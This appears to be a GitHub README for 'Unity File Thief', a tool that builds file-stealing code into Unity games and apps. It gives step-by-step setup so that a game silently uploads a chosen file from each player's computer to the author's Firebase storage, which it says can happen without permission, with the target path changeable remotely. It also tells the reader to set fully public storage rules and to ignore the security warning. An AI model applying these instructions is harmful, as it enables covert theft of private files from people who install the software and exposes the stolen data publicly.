 #🛠It's Updating ...🛠
# ⚠️You May Encounter Errors If You Use It.⚠️


# Unity File Thief
Capture the files of users who installed the Application or Game you created in Unity from an address on their computers without permission (or by asking) and store them on the cloud (Firebase). After collecting the file from the user, you can change the path via Firebase and pull different files.  


## Content
- [Basic Step by Step - Setup](#basic-step-by-step)
- [Başlık 2](#başlık-2)
- [Başlık 3](#başlık-3)

## Basic Step by Step
1- Prepare Unity For Project 


##

## Set Up
1- Open your new Unity Project  
**FOR FIREBASE**  
2- Go to : https://console.firebase.google.com/ , If you dont have any account, Sing Up  
3- Add new Project on firebase ; enter a name, Select default account for firebase  
4- Select Unity under the "Get started by adding Firebase to your app" text.  
5- Choose a register type.  
6- Download config file (2nd step) and SDK zip (3th step).  
7- Go to Your Project Console and open -> Build>Storage -> Get Started -> Next -> Done  
8- Under the "Storage" text, select Rules.  
9- Delete the texts of Rules File. And Copy and Paste that Rule :  
<pre>
rules_version ='2';  
service firebase.storage{  
  match /b/{bucket}/o {  
    match /{allPaths=**} {  
      allow read, write:if true;  
    }  
  }  
}  
</pre>
**TURN TO UNITY**  
10- Create a new folder. Name of the folder should be "StreamingAssets"  not with (") - (NAME IS IMPORTANT)  
11- Add config file to that folder. (Config file in the 6th step of the set up)  
12- Extract the Firebase SDK zip and hold FirebaseStorage.unitypackages and drop to project panel on the unity  
13- Import all  
14- Create new GameObject and add fileThieff.cs to your GameObject  
**SET THE SCRIPT**  
15- Go to  Firebase Storage of the YourProject Panel again. There is a copy button Left side of the Upload file  
16- Click Copy button or copy that Url which starts with gs (example ->  gs://file-thied.appspot.com )  
17- Turn to our script. Find that code line "StorageReference storageRef = storage.GetReferenceFromUrl("gs://file-thied.appspot.com/").Child(storagePath);"  
18- Delete that part  ""gs://file-thied.appspot.com/"" and paste your Url  
19- Select the path which file you want to take. Dont get a folder, only file.  
20- Under the Start Method, Find UploadFile() Function and write path (example -> "C:\\aFile\\aText.txt" )  
21- Save the Code and Start Your Game.  
**GET RESULT**  
22- When the users open your game; If they have that file, Our game take its file.  
23- Files go to Storage. You can see the documents on that tab.  



## Set Up v2.0
&nbsp;&nbsp;1- Open your new Unity Project on Unity Hub   
<br>
<br>
**🛠️ SET FIREBASE REALTIME DATABASE & STORAGE FOR UNITY 🛠️**   
   
&nbsp;&nbsp;2- Go to : https://console.firebase.google.com/ . If you dont have any account, Sing Up   
&nbsp;&nbsp;3- Add new Project on Firebase Console (Don't need to enable "Google Analytics")     
&nbsp;&nbsp;4- Add the application to be used in the project panel you opened as Unity   
   
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<img src="https://github.com/SabriACUN/Unity-File-Thief/assets/96339137/37fc2ca2-5789-4f6f-9de2-b81412b0fee8" width="250"/>

&nbsp;&nbsp;5- Choose the Register Type for Operating System (recommend : Android)   
&nbsp;&nbsp;6- Fill the first blank (com.company.appname) [ !! Not important what you write, Write according to the format ]   
&nbsp;&nbsp;7- Don't download "config file" for now. Next Button !   
&nbsp;&nbsp;8- Download Firebase Unity SDK (Zip) and Continue to Console.   
&nbsp;&nbsp;9- Open Sidebar ( If its closed )   
&nbsp;&nbsp;&nbsp;&nbsp;· Under the "Product Categories > Build > Storeage". Click "Get Started" 
&nbsp;&nbsp;&nbsp;&nbsp;· Start in production mode.   
10- Under the "Storage" text, select Rules. Delete the texts of Rules File and Copy and Paste that Rule : 
<pre>
rules_version ='2';  
service firebase.storage{  
  match /b/{bucket}/o {  
    match /{allPaths=**} {  
      allow read, write:if true;  
    }  
  }  
}  
</pre>
··· For NOW warning not important "Your security rules are defined as public, so anyone can steal, modify, or delete data in your database." ···    
11- Go to Sidebar and open Build again. Choose Realtime Database.   
&nbsp;&nbsp;&nbsp;&nbsp;· Create Database   
&nbsp;&nbsp;&nbsp;&nbsp;· You can open in Test Mode.
12- In the Sidebar there is a Settings Button. Click on it. Choose "Project Settings"   
&nbsp;&nbsp;&nbsp;&nbsp;· "General > Your apps" Download "google-services"   
<br>
<br>
**🛠️ SET UNITY FOR FIREBASE 🛠️** 
<br>
13- Go to Unity. Create a new folder. Name of the folder should be "StreamingAssets"  not with (") - (NAME IS IMPORTANT)   
&nbsp;&nbsp;&nbsp;&nbsp;·Add config file to that folder (google-services)   
14- Extract the Firebase SDK zip and hold FirebaseStorage.unitypackages & FirebaseDatabase.unitypackage and drop to project panel on the Unity. and Import   
15- Create new GameObject and add fileThieff.cs & takeString.cs to your GameObject.    
[ -- For logs and errors that may be encountered, the log printing system is included in the codes, so you can delete it if you want or assign the necessary texts to the desired places as a reference. -- ]  
